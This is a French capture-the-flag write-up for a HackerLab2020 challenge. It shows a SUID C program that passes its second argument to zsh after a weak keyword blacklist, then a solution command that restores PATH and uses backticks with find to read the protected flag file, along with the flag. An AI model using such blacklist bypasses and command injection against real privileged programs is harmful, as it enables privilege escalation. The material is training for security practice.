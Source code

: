 # HackerLab2020 - Challenge 3

## Challenge
Après connexion sur le serveur ssh, nous avons un fichier SUID _chal0x01_ dont le fichier source _chal0x01.c_ est mis à notre disposition.

```c
#define _XOPEN_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

int covider(char* command){
	int out=0;
	out += strstr(command, "f_l_a_g_")!=0;
	out += strstr(command, "_")!=0;
	out += strstr(command, "*")!=0;
	return out;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/jinfectetonpathalacovid");
	if(covider(argv[2])) return 0;
	int ret;
	ret = execl ("/usr/bin/zsh", "zsh","-c", argv[2],(char *)0);

	return 0;
}
```
# Solution
Il faut comprendre d'abord qu'il y a un control sur le deuxième argument du programme. A cet effet, l réussite de cette épreuve sera effective lorsque nous arrivons à afficher le contenu du fichier *f_l_a_g_* sans utiliser les les caractères ou expressions blacklistés.

Dans un premier temps, nous avons vérifié la taille du fichier *f_l_a_g_* en question puis effectué un filtre dessus tout en bypassant les caractères blacklistés et maintenir la variable _$PATH_ intacte.

```bash
chal0x01@vps-dc68098a:~$ ls -lh
total 28K
-rwsr-sr-x 1 chal0x01_pwn chal0x01_pwn 17K août  18 12:06 chal0x01
-r--r----- 1 chal0x01_pwn chal0x01     470 août  18 12:06 chal0x01.c
-r-------- 1 chal0x01_pwn chal0x01     253 août  18 11:06 f_l_a_g_
chal0x01@vps-dc68098a:~$ ./chal0x01 inspiv 'PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games&&cat `find /home/chal0x01 -type f -size 253c`'
Félicitations. Si tu as pu lire ce fichier, c'est que tu remplis les conditions necessaires pour participer à la phase finale du HackerLab2020.
Il s'agit pour toi maintenant de t'entrainer plus que jamais!
Voici le flag final!
CTF_Kephren_1s_Th3_g0@t
chal0x01@vps-dc68098a:~$
```

```
FLAG: CTF_Kephren_1s_Th3_g0@t
```
